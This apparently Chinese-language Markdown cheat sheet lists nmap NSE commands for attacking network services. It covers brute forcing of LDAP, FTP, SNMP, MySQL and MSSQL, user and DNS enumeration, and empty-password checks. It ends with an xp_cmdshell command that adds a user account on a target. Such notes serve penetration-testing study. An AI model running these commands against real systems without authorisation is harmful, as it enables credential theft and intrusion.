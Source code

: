 - ldap

    爆破

    `nmap -p 389 --script ldap-brute --script-args ldap.base='cn=users,dc=cqure,dc=net' <target ip>/24`

- FTP

    `nmap -p21 --script ftp-syst <target ip>`

    爆破

    `nmap -p21 <target ip> --script ftp-brute --script-args userdb=/root/user.txt,passdb=/root/pass.txt`

- SNMP

    ```bash
    nmap –sU –p161 –script=snmp-brute <target ip>   # 查找 snmp 弱口令
    nmap -sU -p161 --script=snmp-netstat <target ip>    # 获取网络端口状态
    nmap –sU –p161 –script=snmp-sysdescr <target ip>    # 获取系统信息
    nmap -sU -p161 --script=snmp-win32-user <target ip> # 获取用户信息
    ```

- SMTP 枚举用户名

    `nmap -p 25 --script smtp-enum-users.nse <target ip>`

- 截图
    - [Nmap-Tools/NSE/http-screenshot.nse](https://github.com/SpiderLabs/Nmap-Tools/blob/master/NSE/http-screenshot.nse)

- dns 域传送

    `nmap -p 53 --script dns-zone-transfer.nse -v <target ip>`

### 数据库

- MySQL

    `nmap -p3306 --script mysql-enum <target ip>`

    mysql 扫描 root 空密码

    `nmap -p 3306 --script mysql-empty-password.nse -v <target ip>`

    mysql root 弱口令简单爆破

    `nmap -p 3306 --script mysql-brute.nse -v <target ip>`

- mssql

    扫描 sa 空密码

    `nmap -p 1433 --script ms-sql-empty-password.nse -v <target ip>/24`

    sa 弱口令爆破

    `nmap -p 1433 --script ms-sql-brute.nse -v <target ip>/24`

    利用 xp_cmdshell,远程执行系统命令

    `nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd=net user test test add <target ip>/24`

